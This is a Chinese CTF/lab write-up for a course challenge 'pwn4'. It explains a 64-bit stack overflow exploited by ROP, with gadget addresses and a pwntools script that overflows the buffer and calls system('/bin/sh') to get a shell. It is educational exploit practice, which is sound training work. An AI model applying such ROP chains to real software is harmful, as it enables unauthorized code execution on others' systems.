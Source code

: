 ### 题目：pwn4

### 考点：

- 64位ROP攻击
- 栈溢出攻击

### 解题思路：

- 首先使用`checksec`工具查看`pwn4`状态![checksec](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\pwn4\images\checksec.png)

- 由图可知`pwn4`为64位程序，且开启了DEP机制，因此可以使用ROP攻击，只不过由于64位程序函数前6个参数会存储在寄存器rdi，rsi，rdx，rcx，r8，r9中，因此需要使用`ROPgadget`工具寻找可用片段将参数传入寄存器rdi中。

- 使用`ida64`工具打开，获取到重要地址`stack_flow`, `system`, `"/bin/sh"`的地址，使用`ROPgadget`工具获取到`pop rdi, ret`片段的地址：


| 函数或字符串 | 地址      |
| ------------ | --------- |
| stack_flow   | 0x040061B |
| system       | 0x0400480 |
| "/bin/sh"    | 0x04006FF |
| pop rdi, ret | 0x0400693 |

- 使用`pwndbg`来动态调试，在`stack_flow`函数下断点，可见传入`read`函数的参数为`0x20`个字节，要覆盖到寄存器`rbp`，需要`0x20+8`个输入；

- 构造python脚本，需要构造payload向pwn4传入(0x20+8)字符覆盖到函数返回地址，然后加入system函数地址，并传入参数。

  ```python
  from pwn import *
  
  context(arch="amd64", log_level="debug")
  p = process('./pwn4')
  
  stack_flow = 0x40061B
  system = 0x400480
  bin_sh = 0x4006FF
  pop_rdi = 0x400693
  ret = 0x4005F3
  
  b = '04005F2'
  
  p.recvuntil("Give me your payload")
  payload = flat(b'b'*(0x20 + 8), ret, pop_rdi, bin_sh, system)
  gdb.attach(p, f'b *0x{b}')
  p.send(payload)
  p.interactive()
  ```

  注：如果不加`ret`，`pop rdi`栈地址为`0x47e4b8`末尾不为0，因此无法正确执行，所以需要加入ret，使后面命令对齐。

![stack-1](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\pwn4\images\stack-1.png)

​		加入`ret`后栈的情况。

![stack](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\pwn4\images\stack.png)

- 结果成功利用栈溢出获取到shell：

![result](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\pwn4\images\result.png)

